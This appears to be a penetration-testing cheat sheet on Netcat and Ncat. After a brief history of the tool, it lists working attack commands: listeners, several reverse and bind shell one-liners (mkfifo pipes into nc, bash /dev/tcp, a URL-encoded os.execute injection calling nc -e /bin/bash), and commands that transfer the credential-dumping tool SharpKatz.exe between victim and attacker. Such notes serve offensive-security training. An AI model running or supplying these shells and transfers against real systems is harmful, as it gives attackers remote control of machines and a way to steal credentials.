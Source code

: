 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

#### Simple Shell 

On the Victim run:

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

On the attacker run:

```shell-session
nc -nv 10.129.41.200 443
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer

## Connect from Attacker / Listener on Victim 

1. Setup listener 

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

2. Send file

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


## Connect from Victim / Listener on Attacker

1. Setup listener on attacker 

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

2. Receive file

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


### Bash Listener 

```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```



